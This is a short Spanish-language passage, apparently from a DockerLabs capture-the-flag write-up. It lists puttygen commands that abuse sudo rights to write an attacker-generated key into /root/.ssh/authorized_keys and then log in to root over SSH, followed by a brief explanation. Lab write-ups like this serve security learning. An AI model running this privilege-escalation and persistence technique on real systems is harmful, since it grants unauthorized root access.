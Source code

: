 ![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/86ae8c9b-8c05-4a22-8fb8-7da63e117ab6)

Los comandos que ejecutamos fueron:
```python
- puttygen -t rsa -b 2048 -O private-openssh -o ~/.ssh/hacked

- puttygen -L ~/.ssh/hacked » ~/.ssh/authorized_keys

- sudo puttygen /home/curiosito/.ssh/hacked -o /root/.ssh/hacked

- sudo puttygen /home/curiosito/.ssh/hacked -o /root/.ssh/authorized_keys -O public-openssh

- ssh -i /home/curiosito/.ssh/hacked root@localhost
```
on `puttygen -t rsa -b 2048 -O private-openssh -o ~/.ssh/hacked` se crea una clave RSA de 2048 bits y se guarda en `~/.ssh/hacked`. Luego, `puttygen -L ~/.ssh/hacked » ~/.ssh/authorized_keys` añade la clave pública a `~/.ssh/authorized_keys` para autenticación SSH. El comando `ssh -i /home/curiosito/.ssh/hacked root@localhost` inicia una conexión SSH usando la clave privada generada.


